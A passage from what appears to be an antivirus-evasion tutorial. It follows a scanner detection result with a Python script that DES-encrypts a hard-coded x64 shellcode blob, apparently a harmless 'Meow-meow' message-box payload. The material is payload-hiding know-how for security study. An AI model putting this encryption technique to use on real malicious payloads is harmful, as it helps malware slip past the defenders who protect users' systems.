 As you can see, clearly, our functions can raise suspicion. So this is the expected result (*17/71*).     

For better result we can use [function call obfuscation](/tutorial/2021/09/06/simple-malware-av-evasion-2.html) trick.     

### python

This is simple python implementation via `pycryptodome` library:      

```python
from Crypto.Cipher import DES
import struct

key = b'\x6d\x65\x6f\x77\x6d\x65\x6f\x77' # the key should be 8 bytes long: meowmeow

def pad(data):
    length = len(data)
    padding_length = 8 - (length % 8)
    padding = b'\x90' * padding_length
    return data + padding

def des_encrypt(data):
    data = pad(data)
    des = DES.new(key, DES.MODE_ECB)
    encrypted_data = des.encrypt(data)
    return encrypted_data

def des_decrypt(data):
    des = DES.new(key, DES.MODE_ECB)
    decrypted_data = des.decrypt(data)
    return decrypted_data.rstrip(b'\x90')

# encrypt shellcode
data = b"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
data+= b"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
data+= b"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
data+= b"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
data+= b"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
data+= b"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
data+= b"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
data+= b"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
data+= b"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
data+= b"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
data+= b"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
data+= b"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
data+= b"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
data+= b"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
data+= b"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
data+= b"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
data+= b"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
data+= b"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
data+= b"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
data+= b"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
data+= b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
data+= b"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
data+= b"\x2e\x2e\x5e\x3d\x00";

encrypted_data = des_encrypt(data)
decrypted_data = des_decrypt(encrypted_data)

# print('original data:', data)
# print('key', key)
# print('encrypted data:', encrypted_data)
# print('decrypted data:', decrypted_data)
```